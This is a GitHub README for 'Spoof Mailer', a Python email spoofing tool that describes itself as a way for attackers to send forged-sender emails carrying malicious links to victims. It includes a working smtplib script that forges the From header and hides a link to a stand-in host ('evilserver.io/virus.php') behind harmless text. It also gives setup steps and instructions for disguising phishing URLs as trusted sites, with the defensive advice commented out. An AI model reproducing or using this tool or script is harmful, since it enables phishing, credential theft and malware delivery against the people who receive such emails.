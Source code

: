 ![GPLv3 License](https://img.shields.io/badge/License-GPL%20v3-yellow.svg) 

# **Spoof Mailer v[2.0]**
<!-- [Spoof-Mailer v2.7](https://github.com/evilfeonix/Spoof-Mailer/blob/main/spoof.png) -->
![Spoof-Mailer v2.7](spoof.png)

**Spoof Mailer**, a python-based utilized program aid as **Email spoofing tool** that enable attackers to simply craft an email message with a malicious link and send them to a large (or small) number of victims.

 This  email message sent may appears to come from trusted source, aiming to trick their victims into revealing sensitive information, open a malicious attachment, or prompt in clicking a malicious link that will direct their victims to malicious website:-
- Either to prompt their victims into revealing sensitive information (e.g Login Credential, Credit Card Details).
- Or to automatically download a malicious file (e.g Trojans, Rootkits, Keylogger, or Backdoor) on their victim's device.


## **Email spoofing Technique**
Email spoofing is a type of cybercrime where an attacker sends an email that appears to come from a legitimate source, such as a trusted company or individual, but is actually sent from a different email address. The goal of email spoofing is to trick the recipient into divulging sensitive information, clicking on a malicious link, or opening a malicious attachment.

## **Examples of email spoofing:**
- Phishing emails that appear to come from a bank or online retailer, asking you to enter login credentials or financial information.
- Spam emails that appear to come from a popular online service, such as Amazon or PayPal, asking you to update your account information.
- Malware emails that appear to come from a colleague or friend, containing a malicious attachment or link.

## **Spoof Mailer can be done by:**
This can be done by just modifying email headers:-
1. **Sender Address Spoofing**: Forging the "`From`" address to make it appear as if the email comes from a legitimate source.
2. **Display Name Spoofing**: Using a legitimate-sounding display name to make the email appear more authentic.
In order to make it appear as if the email came from a different server or domain.

## **Sample Spoof Mailer Attack:**
_The below python script demonstrate how easy it is for an attacker to modify email message header and launch 
an email spoofing attack:_
```py
import os, sys, time, smtplib								# import smtp utilities
from email.mime.text import MIMEText						# import email utilities
from email.mime.multipart import MIMEMultipart

mal="<a href='http://evilserver.io/virus.php'>www.mysite.com</a>"
msg=MIMEMultipart("alternative")
msg["From"]="Spoof Username <spoofAddress@gmail.com>"		# Spoof Username and Email Address <--\
msg["To"]="victim1234@gmail.com"							# Victims Email Address				  |---> Email Headers
msg["Subject"]="Spoof Mailer v2.0"							# Message Subject	<----------------/
html="<center><h1>Spoof Mailer v2.0</h1></center>"			# Message Heading   <----------------_-_--> Email Message
html+=f"<p>Click this link: {mal}, to download a file</p>"	# Message   <-----------------------/
html_part=MIMEText(html, "html")
msg.attach(html_part)

Server = smtplib.SMTP("smtp.gmail.com", 587)								# Connect to Gmail Server on Port 587
Server.starttls()															# Start Connection
Server.login("attacker33@gmail.com", "password1234")						# Attacker Login to his/her Gmail Account
Server.sendmail("attacker33@gmail.com", "victim1234@gmail.com", str(msg))	# Send Message to Victims as Spoofed User
Server.quit()																# End Connection
```

## **Spoof Mailer Installation:**
- ### **First Step: _You Gotta Install Dependencies Needed_**

If you haven't already, you can install all the necessary dependencies:

```bash
apt update && apt upgrade
apt install python3
apt install git
```

- ### **Second Step: _Then You Clone the Repository_**

```bash
git clone https://github.com/evilfeonix/Spoof-Mailer.git
cd Spoof-Mailer
```
- ### **Third Step:  _You Gotta Configure the Tool (config.ini)_**

The tool requires the configuration of the `config.ini` file before use. The configuration file allows you to specify the email provider's host and port, and also email account username and password.

The default `host` and `port` configuration in `config.ini` is set up for Gmail, but you can modify these settings to test other email providers (such as Yahoo, Outlook, etc.).

### ***Example config.ini for Spoof Mailer:***

```ini
[SMTP]
port = 587
host = smtp.gmail.com
user = <SMTP Server Username>
pass = <SMTP Server Password>

;  Modify the user and pass variable's vaule by Specifying
;  your Email Account Username and also Email Account Password
```
> **Important:** Modify the `user` and `pass` variable's vaule configuration in `config.ini` before trying to run the main script `spoof.py`. And also, if you're dealing with a different email provider, replace the `host`, `port`, `user`, and `pass` with the appropriate values.

- ### **Fourd Step: _Finally!, Run the Tool_**

After configuring the config.ini file, run the tool:
```bash
python3 spoofer.py
```

# **Spoof Mailer Usage (Ruleset)**
1. If you are writing a message and you wanted to move to the next line just hit [`ENTER`], and keep writing your message, if you feel ending the message then type `#F30N1X` in a new link and hit [`ENTER`], this will finally break the input looping and forword you to the next process.

2. If you wanted to add a link to your message just type it in it standerd form (e.g `http://example.com/index.php?msg=text`) and leave the rest to us, because we dedicated a little section that going to detect the link from your message and convert it to an hyper link

3. And finally, if you wanted to mask your link with a text, which will be a little bit legit to your victim. Then you  are going to make a good use of (`>>`) symbols. Here is a quick demo: (e.g `http://fakesite.com/index.php>>www.trustedsite.com`). this is going to create an hyper link that says `www.trustedsite.com`, but when clicked, it will direct user to `http://fakesite.com/index.php`.

>**Quick Notice: Space is not required while masking URL, only this (`-`) symbol is request, which automatically represent the space**


<!-- [Spoof-Mailer v2.7](https://github.com/evilfeonix/Spoof-Mailer/blob/main/spoof1.png) -->
![Spoof-Mailer v2.1](spoof-2.1.png)


### **Important Note:**

> **If u are writing a message and u wonna move to the next line just hit [`ENTER`], and keep writing ur message, if u feel ending the message then type `#F30N1X` in a new link and hit [`ENTER`], this will finally break the input looping and forword u to the next process.**

>**If u wanna add a link to ur message just type it in it standerd form (e.g `http://example.com/index.php?msg=text`) and leave the rest to us, cause we dedicated a little section that gonna deal with this.**

>**And also, if u wanna mask the link with a text u will make used of (`>>`) symbols. Here is a quick demo: (e.g `http://www.fakesite.com/index.php>>login-to-this-site`)**

>**If u kinda like our project, just u know!.., feel free to bye us cup of tea, am just kidding, cause u owns the decision whether to do it or not**

>**But seriously!, if u fucking well found our repo so useful and u likely wanna contribute. We are welcoming u to our world!, just feel free to get in touch with us across our platforms**

>**We may be slow in responding due to what we are going throught, but that wont stop us!**

>**Please report any error if found within our repo.** 

<!-- Protection against email spoofing:

1. Verify the sender's email address and check for slight variations.
2. Be cautious of generic greetings and spelling mistakes.
3. Hover over links to see the URL before clicking.
4. Use two-factor authentication whenever possible.
5. Use anti-spam and anti-virus software.
6. Use DMARC (Domain-based Message Authentication, Reporting, and Conformance) to authenticate email senders.

Remember, email spoofing is a common tactic used by cybercriminals, and being vigilant and taking the necessary precautions can help protect you from falling victim to these types of attacks. -->

### **Support Us**

Support us by liking, forking, and sharing our repo and also follow us on [facebook.com](https://facebook.com/evilfeonix), [instagram.com](https://instagram.com/evilfeonix), and [youtub.com](https://youtub.com/@3V1LF30N1X) for latest hacking tips and tricks.

### **Disclaimer**

This tool is intended to educate you on Email Spoof Technique, how it's done, and how risk it could be when you become a victims of this technique. and also used this tool responsibly.

>_Note that we!, the creators of this tool are not responsible for any misuse or damage caused by it._

### **License**

[GNU General Public License v3.0](https://github.com/evilfeonix/Spoof-Mailer/blob/main/LICENSE) 